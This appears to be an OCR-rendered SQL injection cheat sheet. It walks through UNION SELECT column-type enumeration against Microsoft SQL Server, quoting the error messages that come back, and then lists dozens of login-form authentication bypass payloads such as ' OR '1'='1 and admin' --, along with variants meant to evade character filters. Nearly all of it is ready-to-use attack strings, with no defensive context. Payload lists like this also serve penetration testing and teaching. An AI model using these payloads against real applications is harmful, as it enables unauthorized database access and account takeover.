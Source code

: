   11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-
No error—the syntax is correct and MS SQL Server is used. Proceeding.

  11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-
No error—we now know the first column is an integer.

  11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --
  Microsoft OLE DB Provider for SQL Server error '80040e07'
  Explicit conversion from data type int to image is not allowed.
Error! The second column is not an integer.

  11223344) UNION SELECT 1,'2',NULL,NULL WHERE 1=2 –-
No error—the second column is a string.

  11223344) UNION SELECT 1,'2',3,NULL WHERE 1=2 –-
Error! The third column is not an integer…

Rinse and repeat until you have all the column types mapped out.

**login forms injection**
  ' OR '1'='1 --
  ' OR '1'='1'-- -
  ' OR 1=1 LIMIT 1-- -
  ' OR '1'='1' --
  ' OR 1=1 --
  " OR 1=1 --
  ' OR '1'='1'/\*
  admin' --
  admin' OR '1'='1'#
  admin')-- -
  admin' --
  admin' #
  admin'/\*
  admin'--
  admin' or '1'='1
  admin' or true--
  admin') or ('1'='1-- -
  admin") or ("1"="1"-- -
  ' or true--
  ' or 1=1--
  ' or 1=1#
  ' or 1=1/*
  ' or 1=1 LIMIT 1-- -
  ' or 'a'='a
  ' OR 1=1#
  ' OR ''='

Payloads that bypass filtered characters
  OR 1=1
  OR TRUE
  OR 1=1-- -
  OR 1=1#
  OR 1=1/*
  OR 1 LIKE 1
  OR 1 BETWEEN 0 AND 2
  OR EXISTS(SELECT * FROM users)
